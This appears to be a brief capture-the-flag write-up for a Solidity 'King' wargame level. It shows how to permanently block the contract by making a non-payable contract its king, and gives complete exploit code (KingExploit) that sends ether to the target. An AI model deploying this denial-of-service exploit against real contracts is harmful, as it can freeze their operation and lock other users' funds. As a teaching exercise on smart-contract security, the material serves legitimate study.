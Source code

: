 # Answer

Goal: Break the contract functionality.

## 1. Breaking

The contract can be broken if the next winner is unable to accept eth. So we make the new king a contract without payable receive or fallback function.

```solidity
contract KingExploit {
    address k;

    // Don't forget to fund the contract during deployment
    constructor (address targetAddr) payable {
        k = targetAddr;
    }

    function exploit() public {
        // The amount doesn't matter as long as it is equal or bigger than the current "prize" of King
        (bool success,) = k.call{value: 0.11 ether}("");
        require(success, "Failed to send Ether");
    }
}
```

